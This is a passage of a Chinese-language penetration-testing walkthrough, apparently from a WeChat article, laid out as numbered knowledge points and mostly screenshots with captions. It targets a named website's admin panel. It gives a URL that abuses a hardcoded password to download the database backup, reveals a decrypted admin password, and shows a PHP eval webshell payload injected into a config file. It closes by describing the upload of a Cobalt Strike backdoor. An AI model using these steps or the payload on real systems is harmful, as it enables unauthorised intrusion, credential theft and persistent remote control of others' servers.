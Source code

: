 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7b4ALa1edGfgD6bicrhQUkXiabSE8EucNZzCIkibXdpseOvxkjgibPqrBewg/640?wx_fmt=png)

全局搜索这个方法名 “mysqldatabak_down”

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7b0a7FFbxhtzR3y4IHcVQ6JZn0q5TfRddahG71mVRkH57QCYI8raObhQ/640?wx_fmt=png)

找到一个数据库备份下载的页面，尝试去访问

http://www.cocat.cc/kss_admin/admin_data.php

却提示未知的方法请求，上面的说到找到了密码和一个请求方法，可以直接利用：

http://www.cocat.cc/kss_admin/admin_data.php

?action=mysqldatabak_down&pwd=adminadminadmin

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bcGkZppwyRNIiapMHXf2PhvLFvTQn8g9nzbmbINRTxtuWEgXCFBogvqQ/640?wx_fmt=png)

访问后直接下载数据库备份文件，这时候就可以尝试找管理员账号密码进行登录。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bK3BLcFEoQUmfxoO5rIPgtk0hDOm0kNzlxsYbmbkuPBfWuPWL2vjEpA/640?wx_fmt=png)

**知识点三、**

检查配置文件是否存留本地

得到数据库备份文件后就自行导入数据库

找到管理员账号密码进行登录，这里解密后的密码：moon@123

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bTDn60KBR9BiaZMBQCbWQC0uh46LaehXC6S3CVvnQ0jXoUib9WrrohBcA/640?wx_fmt=png)

在知识点一的时候发现密码是存留在配置文件里的，那就反回去看配置文件是否可以利用。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bOgw1LIBF5sc95KoicMOwAWqDk9bsMj64I1eSpk8aZGRicN3DwMOY153g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bC9zUJM2DWGv6zqn1YNsdL01ynKU9fkib7mT7bMCLNrTHDDQJMPh2XNQ/640?wx_fmt=png)

登录后发现系统设置页面是 /kss_inc/_config.php 文件里的内容，是可以直接写入 webshell。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bCeVCyjQEic44uwPNZEGCuk9gKr2icFzfnBYwWLMLCtAP1OaibGV9BVhJw/640?wx_fmt=png)

可以先本地复现后再去打，如：');@eval($_POST[a]);('

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bSDqJQeibUydqq0JpIfkv6nm9HPF93ptvodv957TEhvIMgYXicicxGicCbw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7b1tiaVIvN0h0p8ictYwHlvAAdX3ZsicA1wEHTISwutR5dlD7Sdn8qWYOSg/640?wx_fmt=png)

**知识点四、**

局限性思维

首先生成 http 的 Cobaltstrike 后门，然后上传到目标机上。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bkOLyKHTicjeib52ictbp9v292Rx5derbO15iaX8UGUgov021QS8Ra9rNibw/640?wx_fmt=png)

上传后门后，由于命令执行不了，应该是被禁了函数，查看 phpinfo();
